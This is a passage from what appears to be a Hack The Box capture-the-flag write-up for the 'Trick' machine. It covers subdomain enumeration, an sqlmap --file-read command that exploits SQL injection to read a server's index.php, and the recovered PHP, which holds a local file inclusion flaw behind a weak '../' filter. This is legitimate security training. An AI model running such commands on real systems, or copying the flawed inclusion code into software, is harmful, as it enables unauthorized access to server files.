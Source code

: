 ```sh
===============================================================
Found: preprod-marketing.trick.htb (Status: 200) [Size: 9660]
===============================================================
2022/07/05 17:39:01 Finished
===============================================================
```

We find another site, this time called marketing. Add to our hosts file and then have a look:

![trick-marketing](/assets/images/2022-07-05-21-07-35.png)

This is just a basic template site with no content, but we see the index.php page has a parameter in the URL that take a file name. We can use SQLMap to get the source code for the index.php file to see what it's doing:

```sh
┌──(root㉿kali)-[~/htb/trick]
└─# sqlmap -r trick-login.req --file-read "/var/www/market/index.php" --batch
```

Notice that the path is market not marketing!

## Code Review

Again this will take some time, but eventually we can look at the file:

```sh
┌──(root㉿kali)-[~/htb/trick]
└─# cat /root/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_var_www_market_index.php
<?php
$file = $_GET['page'];
if(!isset($file) || ($file=="index.php")) {
   include("/var/www/market/home.html");
}
else{
        include("/var/www/market/".str_replace("../","",$file));
}
?>
```
